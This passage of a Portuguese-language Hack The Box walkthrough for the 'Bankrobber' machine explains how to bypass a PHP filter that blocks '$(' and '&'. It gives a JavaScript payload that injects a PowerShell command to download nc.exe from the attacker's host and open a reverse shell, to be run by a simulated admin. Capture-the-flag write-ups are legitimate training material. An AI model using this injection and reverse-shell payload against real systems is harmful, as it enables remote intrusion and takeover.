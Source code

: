 ![backdoorchecker.php decoded](Assets/HTB-Windows-Insane-Bankrobber/curl_base64_backdoorchecker_base64-d.png)

Vemos que não podemos utilizar o segunte conjunto:

> $bad = array('$(','&')

Ou seja, o nosso comando não pode incluir "$(" nem "&", caso incluir, será barrado pelo código php. Posto isso:

-   Preparar um nc em escuta

-   Criar um rce.js contendo o seguinte:

```javascript
var request = new XMLHttpRequest()
params =
    'cmd=dir|powershell -c "IWR -Uri http://10.10.14.9/nc.exe -OutFile %temp%\\nc.exe"; %temp%\\nc.exe -e cmd 10.10.14.9 443'
request.open('POST', 'http://localhost/admin/backdoorchecker.php', true)
request.setRequestHeader('content-type', 'application/x-www-form-urlencoded')
request.send(params)
```

-   Obrigar o user "admin" simulado a executar esse javascript:
